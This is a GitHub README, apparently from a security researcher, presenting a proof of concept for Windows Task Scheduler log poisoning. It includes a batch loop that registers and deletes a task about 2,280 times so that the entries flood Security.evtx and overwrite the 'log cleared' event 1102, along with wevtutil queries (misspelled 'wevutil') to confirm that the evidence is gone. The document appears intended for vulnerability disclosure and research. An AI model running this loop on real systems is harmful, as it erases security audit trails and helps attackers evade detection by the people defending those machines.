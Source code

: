 # Task Scheduler Logs Poisoning & Tampering
By [Ruben Enkaoua](https://x.com/rubenlabs) and [Cymulate](https://cymulate.com/)
<br>
<br>
[Original Blog: Task Scheduler New Vulnerabilities](https://cymulate.com/blog/task-scheduler-new-vulnerabilities-for-schtasks-exe/)
<br>
<br>

#### Description
<br>

An attacker can register a task with a 5KB XML file - See [TaskScheduler-Logs-Tampering](https://github.com/rubenformation/TaskScheduler-Logs-Tampering), with a low privileged user and a password, which will not run. But the log is still registered, with a 3500 bytes buffer. It is possible to overwrite the whole Security.evtx database, since it is configured to contain maximum 20MB of logs by default. 
<br>
<br>

#### Requirements
<br>

- An unprivileged user to run the task
- A working password for the XML task to be registered, event if an error is generated
- The Security Policy "Audit Other Object Access Events" is enabled
<br>

#### Command
<br>

> Run the script
```bash
# Clear the logs to test if the only log "Clear Log" EVENT ID 1102 is overwritten.
# Check if the 1102 has been generated in the Security.evtx database
wevutil qe Security /q:"*[System[EventID=1102]]" /f:text

@echo off
for /l %%i in (1,1, 2280) do ( 
    schtasks /create /tn poc /xml poc.xml /ru <user> /rp <password> >nul 2>&1 & schtasks /delete /tn poc /f >nul 2>&1
)
echo OK
```
<br>

> Check the logs
```bash
# Check if the 1102 log still remains in the Security.evtx database
wevutil qe Security /q:"*[System[EventID=1102]]" /f:text

# If the result is empty, the Security.evtx database has been overwritten. 
```
<br>

#### Notes
<br>
This code is for educational and research purposes only.<br>
The author takes no responsibility for any misuse of this code.
